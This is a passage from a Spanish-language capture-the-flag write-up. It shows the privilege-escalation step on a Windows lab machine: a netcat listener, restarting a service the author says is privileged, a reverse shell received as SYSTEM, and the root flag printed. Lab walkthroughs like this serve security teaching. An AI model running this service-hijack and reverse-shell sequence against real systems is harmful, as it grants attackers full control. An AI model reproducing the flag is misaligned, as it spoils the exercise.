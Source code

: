Nos ponemos en escucha

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
```

Y como la tarea es privilegiada ala hora de arrancar el servicio nos va enviar la **reverse shell**

Primero vamos a parar el servicio 

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

Ahora lo arrancamos

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools
```

Y recibimos la shell 

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.95.241 55672
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

## root flag

```bash
type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
d85fffc0c733cc167c158e77fe6eeda2

C:\Windows\system32>
```
